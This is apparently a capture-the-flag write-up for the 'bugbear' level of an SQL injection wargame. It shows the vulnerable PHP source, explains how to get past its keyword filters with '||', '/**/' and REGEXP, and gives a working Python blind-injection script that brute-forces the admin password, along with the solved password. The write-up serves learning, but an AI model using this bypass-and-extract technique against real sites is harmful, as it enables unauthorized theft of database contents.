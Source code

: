 # bugbear

-----------

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

Here we have to get the admins password but there are so many filtered words. So we have to use `REGEXP` in mysql to find patterns in the passeord and get the password using bind injection. We also have to use `||` instead of `or` and `/**/` instead of whitespace.

I made a script to do that

```python
import requests
import string

session = requests.Session()

url = 'https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?no=0/**/||/**/pw/**/REGEXP/**/"[[:<:]]{}"'
cookies = {"PHPSESSID": "lmscmn6uu5q675j19npln84ik4"}
pw = ""
for j in range(8):
    for i in string.printable:
        r = requests.get(url.format(pw+i), cookies=cookies)
        if('Hello admin' in r.text[:200] and i not in "#?&"):
            pw += i
            print("Password :", pw)
            break

print("Password :", pw)
```

The script gives the password as `52dc3991` and giving that as the value of pw solves the level.
